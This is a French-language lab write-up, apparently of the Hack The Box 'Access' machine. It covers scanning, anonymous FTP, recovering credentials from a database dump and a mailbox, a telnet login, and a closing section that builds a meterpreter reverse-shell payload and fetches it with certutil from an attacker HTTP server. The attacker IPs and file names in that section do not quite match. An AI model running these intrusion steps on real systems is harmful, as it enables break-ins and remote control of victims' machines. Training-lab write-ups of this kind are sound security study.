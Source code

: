 # Access

- Machine Windows
- @IP : `10.10.10.98`

# Reconnaissance 

- Application web sur le port 80
- Sources : rien
- Headers : rien
- Echanges réseau : rien
- Scripts client : rien

Scan réseau :

    nmap -sV 10.10.10.98

    PORT   STATE SERVICE
    21/tcp open  ftp (Microsoft ftpd)
    23/tcp open  telnet
    80/tcp open  http (Microsoft IIS httpd 7.5)

    nmap -sS -PN -n -sV -sC 10.10.10.98

    PORT   STATE SERVICE VERSION
    21/tcp open  ftp     Microsoft ftpd
    | ftp-anon: Anonymous FTP login allowed (FTP code 230)
    |_Can't get directory listing: TIMEOUT
    | ftp-syst: 
    |_  SYST: Windows_NT
    23/tcp open  telnet?
    80/tcp open  http    Microsoft IIS httpd 7.5
    | http-methods: 
    |_  Potentially risky methods: TRACE
    |_http-server-header: Microsoft-IIS/7.5
    |_http-title: MegaCorp
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Répertoires web trouvés :

msf > auxiliary/scanner/http/dir_scanner :

    Found http://10.10.10.98:80/aspnet_client/ 403 (10.10.10.98)

dirb http://10.10.10.98

    10.10.10.98/index.html
    10.10.10.98/aspnet_client
    10.10.10.98/aspnet_client/system_web/

msf > auxiliary/scanner/http/webdav_scanner :

    [*] 10.10.10.98 (Microsoft-IIS/7.5) WebDAV disabled.

## Exploitation

### Serveur FTP
On sait grâce aux scans NMAP qu'un service FTP est lancé sur la machine cible.
On sait également que le login en tant qu'utilisation Anonymous est autorisé, on va donc tester de se connecter au serveur pour vérifier le contenu : 

    ftp 10.10.10.98
    Name: anonymous
    Password : <vide>

La connexion est autorisée, et on peut lister le contenu :

    ftp> ls
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    08-23-18  08:16PM       <DIR>          Backups
    08-24-18  09:00PM       <DIR>          Engineer

On récupère deux fichiers dans ces différents répertoires :
- Access Control.zip
- backup.mdb

```
file backup.mdb
backup.mdb: Microsoft Access Database
```

Tentative de cracker le fichier zip avec fcrackzip, ne donne rien :
```
fcrackzip -u -D -p ~/rockyou.txt AccessControl.zip
```
Affichage des chaines de caractères dans le fichier backup.mdb

`strings backup.mdb | awk 'length > 8' > dumpdb` 

On remarque la chaine de caractères : `access4u@security`

Ouverture du zip avec le mot de passe pour obtenir le fichier AccessControl.pst

Archive pst (Outlook), que l'on peut ouvrir avec `readpst AccessControl.pst`

Le mail contenu dans le .pst contient les credentials : 'security:4Cc3ssC0ntr0ller'

telnet 10.10.10.98
login:security
password:4Cc3ssC0ntr0ller

On accède au serveur en tant que l'utilisateur 'security'

Affichage du flag user :
```
cd Desktop
type user.txt
```

Le flag utilisateur est le hash : `ff1f3b48913b213a31ff6756d2553d38`

## Obtenir un shell meterpreter

L'objectif est de déposer un payload sur la machine en se servant de l'accès utilisateur dont on dispose.

Pour commencer on fabrique le payload que l'on executera :
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.13.129 LPORT=4567 -f exe > shell.exe`

On doit ensuite réussir à envoyer ce fichier sur la machine cible, on peut notamment utiliser l'utilitaire windows `certutil` qui sert habituellement à effectuer un certain nombre d'opérations sur les certificats d'une machine windows mais qui permet également de télécharger des fichiers via le protocole HTTP.

1. On crée un serveur web HTTP via `python -m SimpleHTTPServer` (par défaut sur le port 8000) dans le répertoire contenant le payload
2. Depuis la machine cible, on exécuté 
```
certutil -urlcache -split -f http://10.10.13.153:8000/coquillage.ps1 aaa.ps1
``` 
pour télécharger le fichier payload en local
3. On lance un handler de payload via msf (exploit/multi/handler) en prenant soin de renseigner le payload choisi, le port et l'adresse de la machine attaquante
4. on exécute le payload récupéré sur la machine cible
5. Le shell doit avoir pop dans msf

# Ressources 
https://blog.ropnop.com/using-credentials-to-own-windows-boxes/

https://blog.ropnop.com/using-credentials-to-own-windows-boxes-part-2-psexec-and-services/

https://github.com/SecureAuthCorp/impacket

https://forum.hackthebox.eu/discussion/1135/access/p7

http://hackingandsecurity.blogspot.com/2016/08/using-credentials-to-own-windows-boxes_17.html

http://hackingandsecurity.blogspot.com/2016/08/using-credentials-to-own-windows-boxes_99.html

https://www.computerhope.com/runas.htm
